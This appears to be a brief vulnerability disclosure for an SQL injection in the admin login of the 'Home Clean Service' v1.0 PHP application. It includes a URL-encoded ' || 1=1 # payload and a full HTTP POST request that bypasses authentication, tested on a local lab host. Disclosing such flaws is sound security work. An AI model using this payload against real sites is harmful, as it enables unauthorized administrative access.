 # home-clean-service v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15293/home-clean-service-free-source-code.html

Date: 2022-05-07

Vulnerability File: /hcs/public_html/admin/login.php

Vulnerability location:/hcs/public_html/admin/login.php, password

[+] Payload: 1%27+%7C%7C+1%3D1+%23

Tested on Windows 10, XAMPP

```
POST http://192.168.2.106/hcs/public_html/admin/login.php HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/hcs/public_html/admin/index.php
Upgrade-Insecure-Requests: 1

username=admin&password=1%27+%7C%7C+1%3D1+%23&login=
```

![](https://github.com/mikeccltt/bug_report_CVE/blob/main/home-clean-service/sql.gif?raw=true)

